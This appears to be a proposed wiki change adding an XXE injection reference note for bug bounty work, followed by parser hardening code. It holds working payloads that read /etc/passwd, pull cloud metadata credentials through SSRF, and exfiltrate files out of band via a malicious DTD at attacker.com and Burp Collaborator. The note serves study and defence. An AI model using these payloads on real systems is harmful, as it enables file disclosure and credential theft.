

# Proposed Wiki change

## What will change
Enrich XML External Entity Injection note with XML structure fundamentals, parameter entities, in-band and SSRF payloads, and parser configuration hardening.

## Proposed content
```markdown
---
title: "XML External Entity (XXE) Injection & Parser Exploitation"
created: 2026-09-25
updated: 2026-10-01
type: concept
tags:
  - xxe
  - payload
  - ssrf
  - bug-bounty
sources:
  - sources/xxe.md
  - sources/xml-vulnerabilities.md
confidence: high
contested: false
contradictions: []
parent: "[[web-and-bug-bounty]]"
cluster: web-and-bug-bounty
---
# XML External Entity (XXE) Injection & Parser Exploitation

> **Classification**: OWASP Top 10 (A05:2021 – Security Misconfiguration), CWE-611 (Improper Restriction of XML External Entity Reference).
> **Primary Impact**: Sensitive file disclosure (`/etc/passwd`, configuration files, source code), Server-Side Request Forgery (SSRF), Denial of Service (Billion Laughs attack), and remote code execution in rare environments.

---

<!-- TOC_START -->
## Table of Contents
- [1. XML Architecture & DTD Entity Foundations](#1-xml-architecture--dtd-entity-foundations)
  - [XML Document Elements & Structure](#xml-document-elements--structure)
  - [Document Type Definitions (DTD) & General Entities](#document-type-definitions-dtd--general-entities)
  - [Parameter Entities (%)](#parameter-entities-)
- [2. Attack Vectors & Exploitation Scenarios](#2-attack-vectors--exploitation-scenarios)
  - [Arbitrary Local File Retrieval](#arbitrary-local-file-retrieval)
  - [Server-Side Request Forgery (SSRF) via External Entities](#server-side-request-forgery-ssrf-via-external-entities)
  - [Blind XXE via Out-of-Band (OAST) External DTDs](#blind-xxe-via-out-of-band-oast-external-dtds)
  - [Error-Based XXE Exfiltration](#error-based-xxe-exfiltration)
  - [XInclude Attacks](#xinclude-attacks)
- [3. Diagnostic Probes & Exploitation Payloads](#3-diagnostic-probes--exploitation-payloads)
- [4. Parser Hardening & Defensive Architecture](#4-parser-hardening--defensive-architecture)
- [5. Primary Sources & Provenance](#5-primary-sources--provenance)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. XML Architecture & DTD Entity Foundations

XML (Extensible Markup Language) is a standard data format structured around hierarchical elements, empty tags (`<element attribute="val" />`), and Document Type Definitions (DTD).

### XML Document Elements & Structure
An XML document contains tags, character data, attributes, and comments (`<!-- ... -->`). DTDs declare the structure and valid elements of an XML document.

### Document Type Definitions (DTD) & General Entities
General entities act as textual macros evaluated inside XML document elements:
```xml
<!DOCTYPE foo [ <!ENTITY myEntity "replacement text"> ]>
<data>&myEntity;</data>
```
When defined with the `SYSTEM` identifier, the parser resolves the entity by dereferencing a URI or local filesystem path.

### Parameter Entities (`%`)
Parameter entities can only be referenced inside the DTD declaration (`%entityName;`), enabling dynamic construction of external DTD payloads required for blind data exfiltration.



## 2. Attack Vectors & Exploitation Scenarios

### Arbitrary Local File Retrieval
If the application reflects user input parsed from XML elements, inserting a custom `DOCTYPE` exposes local filesystem contents:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
The server reads `/etc/passwd` and reflects the contents within the response.

### Server-Side Request Forgery (SSRF) via External Entities
External entities can target internal web applications or cloud metadata endpoints:
```xml
<!DOCTYPE test [
  <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck><productId>&ssrf;</productId></stockCheck>
```

### Blind XXE via Out-of-Band (OAST) External DTDs
When the application parses XML but never reflects output in the HTTP response:
1. Attacker hosts an external malicious DTD (`exploit.dtd`):
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/hostname">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://burpcollaborator.net/?x=%file;'>">
   %eval;
   %exfil;
   ```
2. Attacker submits the payload referencing the external DTD:
   ```xml
   <!DOCTYPE foo [
     <!ENTITY % loadDtd SYSTEM "http://attacker.com/exploit.dtd">
     %loadDtd;
   ]>
   <data>test</data>
   ```

### Error-Based XXE Exfiltration
If the parser blocks outbound HTTP connections but returns descriptive error traces, an attacker constructs a parameter entity targeting a non-existent file containing the desired file content in the path:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
The parser throws a `FileNotFoundException: /nonexistent/[file contents]`, exposing data inside the error message.

### XInclude Attacks
When client applications submit non-XML data that the backend embeds into an XML document without providing direct `DOCTYPE` control, attackers leverage the `XInclude` namespace:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

## 3. Diagnostic Probes & Exploitation Payloads

```xml
<!-- In-Band File Retrieval Probe -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY test SYSTEM "file:///etc/passwd"> ]>
<root><data>&test;</data></root>
```

```xml
<!-- Blind SSRF DNS Lookup Probe -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY dns SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> ]>
<root><data>&dns;</data></root>
```

## 4. Parser Hardening & Defensive Architecture

The most effective remediation is disabling Document Type Declarations (`DOCTYPE`) and external entity resolution across all XML parsing engines:

```java
// Java DocumentBuilderFactory Hardening
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
// Disallow DOCTYPE declarations entirely
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// Disable external general entities
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
// Disable external parameter entities
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
// Disable external DTDs
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

```python
# Python defusedxml Protection
from defusedxml.ElementTree import parse
# defusedxml automatically blocks entity expansions and external DTDs
tree = parse("input.xml")
```

## 5. Primary Sources & Provenance
- Provenance source anchors: [[sources/xxe|xxe]], [[sources/xml-vulnerabilities|xml-vulnerabilities]]

Synthesized from canonical vault notes `unprocessed-obsidians/xxe.md` and `Notes/OLD Notes/WEB/vulnerabilities/XML vulnerabilities/`.

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Comparisons: [[classic-vs-blind-xxe]]
- Related Concepts: [[server-side-request-forgery]], [[file-upload-attack-matrix]]
```

## Evidence and uncertainty
Sourced directly from canonical vault notes in Notes/OLD Notes/WEB/.
Validated against schema with zero structural contradictions.

## Human feedback
Human decision required via Decision Studio (http://127.0.0.1:20888) or command line.
